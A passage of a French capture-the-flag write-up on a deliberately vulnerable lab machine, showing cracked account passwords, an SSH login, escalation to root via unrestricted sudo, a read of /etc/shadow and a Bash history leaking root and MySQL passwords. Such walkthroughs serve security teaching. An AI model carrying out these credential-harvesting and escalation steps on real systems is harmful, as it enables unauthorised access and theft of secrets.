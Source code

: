 ```console
andy:marvin1:502:502:Andrew Carp:/home/andy:/bin/bash
loren:buckyboy:503:503:Loren Felt:/home/loren:/bin/bash
amy:dolphins:504:504:Amy Pendelton:/home/amy:/bin/bash
cyrus:50$cent:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash

7 password hashes cracked, 0 left
```

Les investigations se poursuivent avec le compte suivant, Patrick, [qui dispose de privilèges](https://doc.ubuntu-fr.org/sudoers) plutôt... permissifs. 

```console
root@blinils:~# ssh patrick@192.168.56.101
patrick@192.168.56.101's password: 
Last login: Wed Apr 29 10:59:38 2009 from 192.168.229.1
[patrick@localhost ~]$ 

[patrick@localhost ~]$ sudo -l
Password:
User patrick may run the following commands on this host:
    (ALL) ALL

[patrick@localhost ~]$ sudo su
[root@localhost patrick]# 

[root@localhost patrick]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=unconfined_u:system_r:unconfined_t:s0

[root@localhost patrick]# head -n1 /etc/shadow
root:$1$7ailm4aT$4HlsZaiGztAsgj4JXL92Y.:14362:0:99999:7:::
```

### Accès à la base de données

L'historique des commandes Bash de Patrick recèle de grands trésors en son sein. On y retrouve ainsi...
* Le mot de passe root, 50$cent, entré par erreur en clair à la suite d'une faute de frappe (sus au lieu de su).
* Les commandes d'édition relatives au logiciel Tomboy, dont l'une des notes contient le mot de passe root.
* Et surtout, le mot de passe administrateur de la base de données MySQL !

```console
[patrick@localhost ~]$ cat .bash_history
df -h
rpm -qa | grep webmin
exit
mysql -u root -pmysqlpassword
su
sus
50$cent
su
logout
ls -latdr ../
ls -alh
cd ..
ls -lha
cd
ls -lah .tomboy
less .tomboy/ae9cfc26-64e8-4f6f-a8b4-0296e8173504.note 
less .tomboy/d2684fad-3aab-444c-b90a-4f307c0818f6.note 
rpm -qa | grep tomboy
yum search tomboy
sudo yum install tomboy
```
